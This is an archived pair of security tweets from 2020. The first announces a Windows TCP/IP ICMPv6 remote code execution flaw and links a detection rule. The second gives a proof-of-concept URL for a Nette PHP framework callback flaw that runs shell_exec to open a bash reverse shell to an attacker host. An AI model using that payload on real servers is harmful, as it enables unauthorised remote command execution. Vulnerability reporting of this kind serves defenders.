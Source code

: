 
# hemayait
**https://twitter.com/hemayait/status/1316430135759908869 _at 2020-10-14 17:26:17_**
<blockquote>
CVE-2020-16898 | Windows TCP/IP Remote Code Execution Vulnerability

A remote code execution vulnerability exists when the Windows TCP/IP stack improperly handles ICMPv6 Router Advertisement packets.

https://t.co/mqBXYB4Y0k

Detection Rule is here

https://t.co/LDYI8940K4
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-16898
* https://github.com/advanced-threat-research/CVE-2020-16898

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1316416189527068672 _at 2020-10-14 16:30:52_**
<blockquote>
CVE-2020-15227 PHP framework nette callback RCE

POC: /nette.micro?callback=shell_exec&amp;cmd=bash%20-i%20&gt;&amp;%20/dev/tcp/'+lhost+'/'+lport+'0&gt;&amp;1

https://t.co/M4oEFOYZva https://t.co/TH5Iu9lFDP
</blockquote>

* https://t.zsxq.com/zn2BQZr

<table><tr>
